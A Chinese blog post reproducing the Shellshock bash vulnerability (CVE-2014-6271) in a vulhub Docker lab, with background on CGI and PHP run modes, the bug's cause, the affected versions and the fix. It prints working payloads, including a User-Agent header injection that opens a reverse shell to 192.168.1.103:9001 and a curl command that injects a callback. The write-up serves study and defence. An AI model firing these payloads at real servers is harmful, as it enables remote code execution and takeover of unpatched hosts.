



# CVE-2014-6271 Shellshock 破壳漏洞 复现 - tr1ple - 博客园

> 原文：[`www.cnblogs.com/tr1ple/p/11203366.html`](https://www.cnblogs.com/tr1ple/p/11203366.html)

补坑。

# 什么是 shellshock

```
ShellShock 是一个 BashShell 漏洞(据说不仅仅是 Bash，其他 shell 也可能有这个漏洞). 一般情况来说，系统里面的 Shell 是有严格的权限控制的，如果没有相应的权限，是根本看不到某些命令的存在，更不要说执行这些命令。
但是，Bash 在运行的过程中会调用操作系统的环境变量，并且会执行一些设置命令。通过 ShellShock 漏洞，入侵者可以把某些”本来没有权限执行的语句或者命令“，注入到环境变量里。当 bash 设置环境变量的时候，就会执行这些”被注入“命令。这样子便绕过用户权限的限制，把一些”没有权限执行的命令“，变成”具有执行权限的命令“了。从而可以在系统内任意执行 Bash 命令语句，胡作非为（相当于获得 root 超级用户权限）。
```

CGI 是一种协议，旨在允许 web 服务器直接执行服务器中类似控制台程序，这些程序也就是 CGI 脚本，通常用来处理来自动态网页的数据并通过 HTTP 进行交互。

必须指定一个新目录，通常是 cgi-bin 或者类似的名字，以使 CGI 脚本能够运行。当浏览器请求 CGI 目录中包含的特定文件的 URL 时，服务器运行该脚本，并将输出传递回浏览器。

运行 CGI 脚本时，会将特定信息复制到环境变量中。如果被调用，该信息将随后传递给 Bash，从而为攻击者提供了一种注入恶意代码的方法。

# php 运行模式与运行原理

## 目前常见的 4 种 PHP 运行模式

1）cgi 通用网关接口（Common Gateway Interface)）
2）fast-cgi 常驻 (long-live) 型的 CGI
3）cli  命令行运行   （Command Line Interface）
4）web 模块模式 （apache 等 web 服务器运行的模块模式）

## CGI 通用网关接口模式

cgi 是一种为了保证 web server 传递过来的数据是标准格式的通用网关接口协议。

每有一个用户请求，都会先要创建 cgi 的子进程，然后处理请求，处理完后结束这个子进程，这就是 fork-and-execute 模式。 当用户请求数量非常多时，会大量挤占系统的资源如内存，CPU 时间等，造成效能低下。所以用 cgi 方式的服务器有多少连接请求就会有多少 cgi 子进程，子进程反复加载是 cgi 性能低下的主要原因。

关于 cgi 脚本是如何运行的，参考这篇文章：http://icodeit.org/2014/04/how-web-works-cgi/

```
基本来说，CGI 可以是任何的可执行程序，可以是 Shell 脚本，二进制应用，或者其他的脚本（Python 脚本，Ruby 脚本等）。
CGI 的基本流程是这样：
Apache 接收到客户端的请求
1.通过传统的 fork-exec 机制启动外部应用程序（cgi 程序）
2.将客户端的请求数据通过环境变量和重定向发送给外部应用（cgi 程序）
3.将 cgi 程序产生的输出写回给客户端（浏览器）
4.停止 cgi 程序（kill）
```

## Fastcgi 模式

fast-cgi 是 cgi 的升级版本，FastCGI 像是一个常驻 (long-live) 型的 CGI，它可以一直执行着，只要激活后，不会每次都要花费时间去 fork 一次 (这是 CGI 最为人诟病的 fork-and-execute 模式)。 

FastCGI 是一个可伸缩地、高速地在 HTTP server 和动态脚本语言间通信的接口。多数流行的 HTTP server 都支持 FastCGI，包括 Apache、Nginx 和 lighttpd 等，同时，FastCGI 也被许多脚本语言所支持，其中就有 PHP

FastCGI 接口方式采用 C/S 结构，可以将 HTTP 服务器和脚本解析服务器分开，同时在脚本解析服务器上启动一个或者多个脚本解析守护进程。当 HTTP 服务器每次遇到动态程序时，可以将其直接交付给 FastCGI 进程来执行，然后将得到的结果返回给浏览器。这种方式可以让 HTTP 服务器专一地处理静态请求或者将动态脚本服务器的结果返回给客户端，这在很大程度上提高了整个应用系统的性能。

## CLI 模式

PHP-CLI 是 PHP Command Line Interface 的简称，如同它名字的意思，就是 PHP 在命令行运行的接口，区别于在 Web 服务器上运行的 PHP 环境（PHP-CGI，ISAPI 等）。 也就是说，PHP 不单可以写前台网页，它还可以用来写后台的程序。 PHP 的 CLI Shell 脚本适用于所有的 PHP 优势，使创建要么支持脚本或系统甚至与 GUI 应用程序的服务端，在 Windows 和 Linux 下都是支持 PHP-CLI 模式的。

## 模块模式

```
Apache + mod_php
lighttp + spawn-fcgi
nginx + PHP-FPM
```

模块模式是以 mod_php5 模块的形式集成，此时 mod_php5 模块的作用是接收 Apache 传递过来的 PHP 文件请求，并处理这些请求，然后将处理后的结果返回给 Apache。如果我们在 Apache 启动前在其配置文件中配置好了 PHP 模块（mod_php5）， PHP 模块通过注册 apache2 的 ap_hook_post_config 挂钩，在 Apache 启动的时候启动此模块以接受 PHP 文件的请求。

除了这种启动时的加载方式，Apache 的模块可以在运行的时候动态装载，这意味着对服务器可以进行功能扩展而不需要重新对源代码进行编译，甚至根本不需要停止服务器。我们所需要做的仅仅是给服务器发送信号 HUP 或者 AP_SIG_GRACEFUL 通知服务器重新载入模块。但是在动态加载之前，我们需要将模块编译成为动态链接库。此时的动态加载就是加载动态链接库。 Apache 中对动态链接库的处理是通过模块 mod_so 来完成的，因此 mod_so 模块不能被动态加载，它只能被静态编译进 Apache 的核心。这意味着它是随着 Apache 一起启动的。

# 漏洞成因

bash 使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令 ENV 中解析成函数后，Bash 执行并未退出，而是继续解析并执行 shell 命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。以下产品和模块可能会被利用：OpenSSH sshd 中的 ForceCommand 功能，Apache HTTP Server 中的 mod_cgi 和 mod_cgid 模块，DHCP 客户端等。

# 实验环境：

https://github.com/vulhub/vulhub/tree/master/bash/shellshock

 

我进入到 docker 容器，查看 apache2.conf 可以看到 apache 设置 cgi 脚本的目录为/var/www/html,并且为该目录下.cgi 的文件添加了 cgi-script 的 hander，实验环境中给了两个 cgi 脚本，一个是 4.3.0 产生的 cgi


一个是最新版的 bash 产生的 cgi，分别测试，如下是 victim.cgi，执行 payload：

```
 () { test;};echo; echo shellshock;/bin/bash -i >& /dev/tcp/192.168.1.103/9001 1&>2
```

理论上应该会输出 shellshock;并且反弹 shell 到本地 9001 端口



如下图所示，可以看到成功输出了，我们在本地看看：


从 docker 容器中成功弹回了 shell，说明通过破壳漏洞我们能够直接 rce，我们这里在 http 头部注入了命令，严格意义上来说，使用匿名函数我们才能达到执行的目的，这里的 User-Agent 完全可以使用其他的 HTTP 字段进行替换。ENV 本身不是漏洞的成因，漏洞的本质是代码注入。相当于在服务器本地执行了：

```
env="() { test;};echo;" echo shellshock;/bin/bash -i >& /dev/tcp/192.168.1.103/9001 1&>2
```


这里就算弹不回 shell 也可以执行任意命令，比如 curl：

```
curl -vvv "http://localhost:8080/victim.cgi" -H 'User-Agent: () { test;};echo;/usr/bin/curl 192.168.1.103:9001;'
```




这里放一张网上看到的文章里面的图，从图中我们可以看到 web 服务器实际上通过环境变量获取浏览器参数，然后交给了 cgi 程序，而实验中 cgi 程序又是有受漏洞影响版本的 bash 生成的，因此我们在 http 头部中注入的浏览器参数被 bash 当作环境变量解析并执行了。

 新版本 bash 生成的 cgi：



可以由上图发现并不受影响

# 漏洞范围：

Bash 版本小于等于 4.3

# 防御办法

Bash 升级到最新的版本

参考：

https://juejin.im/entry/5843ac62ac502e006ba3b341

https://blog.csdn.net/hguisu/article/details/7386882